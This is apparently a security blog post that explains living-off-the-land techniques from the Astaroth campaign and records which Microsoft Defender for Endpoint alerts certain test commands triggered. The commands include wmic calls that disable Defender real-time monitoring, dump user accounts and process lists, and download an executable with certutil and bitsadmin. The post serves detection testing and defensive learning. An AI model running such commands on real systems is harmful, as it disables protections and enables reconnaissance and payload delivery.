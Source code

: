 # LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. 
That's why I believe this is a great time to share my learning and detection insights in MDE through this blog.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system. 

I will show you how LotL techniques were used by attackers, based on past Microsoft Security blogs.


### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. LNK
2. WMI
3. Bitsadmin
4. Certutil

**LNK** : One common pattern is that an attacker creates a LNK file with a target path that executes a PowerShell command to download and run a malicious script from the internet.

**WMI** : Query the operating system (OS) for specific properties and then formats the output using a custom format file located at a URL.

**Bitsadmin / Certutil** : The commands bitsadmin and certutil can be exploited in cyberattacks, particularly in the context of malware delivery and command-and-control (C2) activities, such as downloading and uploading files.

![image](https://github.com/user-attachments/assets/f3ba69a1-f9bf-4300-9b03-551917f9875f)
> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

## Microsoft Defender for Endpoint detection alerts

**Test commands**
```cmd
wmic process call create "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command \"Set-MpPreference -DisableRealtimeMonitoring 1\""
wmic process get caption,executablepath,commandline /format:csv  > %Temp%\commands.csv
wmic useraccount get /ALL /format:csv > %Temp%\UserAccounts.csv
wmic qfe get description,installedOn /format:csv > %Temp%\installedapp.csv
wmic process call create "cmd.exe /c certutil -urlcache -f \"https://aka.ms/ioavtest\" \"%TEMP%\\validatecloud.exe\""
wmic process call create "cmd.exe /c bitsadmin /transfer mydownloadjob /download /priority high \"https://aka.ms/ioavtest\" \"%TEMP%\\validatecloud.exe\""
```

***The pentest device was protected by Defender Antivirus and Microsoft Defender for Endpoint, with Tamper Protection turned on.***

These alerts have been detected by MDE.
- Suspicious Process Discovery
- Suspicious User Account Discovery
- Anomalous account lookups
- Suspicious WMI process creation
- Suspicious file creation by BITSAdmin tool
- Use of living-off-the-land binary to run malicious code
- Suspicious behavior by cmd.exe was observed

![image](https://github.com/user-attachments/assets/45ad9fcc-1fcb-427b-8876-45b6b74df524)

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.

